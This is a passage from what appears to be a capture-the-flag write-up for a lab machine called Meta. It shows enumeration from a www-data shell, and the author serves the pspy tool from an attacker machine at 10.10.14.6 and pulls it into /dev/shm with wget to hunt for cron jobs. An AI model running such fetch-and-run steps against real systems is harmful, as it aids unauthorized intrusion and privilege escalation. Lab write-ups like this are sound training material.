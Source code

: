 ## Shell as thomas

### Enumeration

#### Home Directories

There’s one home directory on Meta:

```

www-data@meta:/home$ ls
thomas

```

This directory has `user.txt`, but www-data can’t read it:

```

www-data@meta:/home/thomas$ ls -la
total 32
drwxr-xr-x 4 thomas thomas 4096 Jan 17 07:53 .
drwxr-xr-x 3 root   root   4096 Aug 29  2021 ..
lrwxrwxrwx 1 root   root      9 Aug 29  2021 .bash_history -> /dev/null
-rw-r--r-- 1 thomas thomas  220 Aug 29  2021 .bash_logout
-rw-r--r-- 1 thomas thomas 3526 Aug 29  2021 .bashrc
drwxr-xr-x 3 thomas thomas 4096 Aug 30  2021 .config
-rw-r--r-- 1 thomas thomas  807 Aug 29  2021 .profile
drwx------ 2 thomas thomas 4096 Jan  4 10:22 .ssh
-rw-r----- 1 root   thomas   33 Jun  3 14:41 user.txt

```

#### Processes

After not finding much else, I’ll upload [pspy](https://github.com/DominicBreuker/pspy) to look for anything that might be running on a cron, especially as thomas. I’ll host the file on my computer with a Python webserver (`python3 -m http.server 80`), and then fetch it to `/dev/shm` using `wget`:

```

www-data@meta:/dev/shm$ wget 10.10.14.6/pspy64 
--2022-06-03 16:32:38--  http://10.10.14.6/pspy64
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK 
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: 'pspy64'
                                                            
pspy64              100%[===================>]   2.94M  2.31MB/s    in 1.3s    

2022-06-03 16:32:40 (2.31 MB/s) - 'pspy64' saved [3078592/3078592]

www-data@meta:/dev/shm$ chmod +x ./pspy64

```
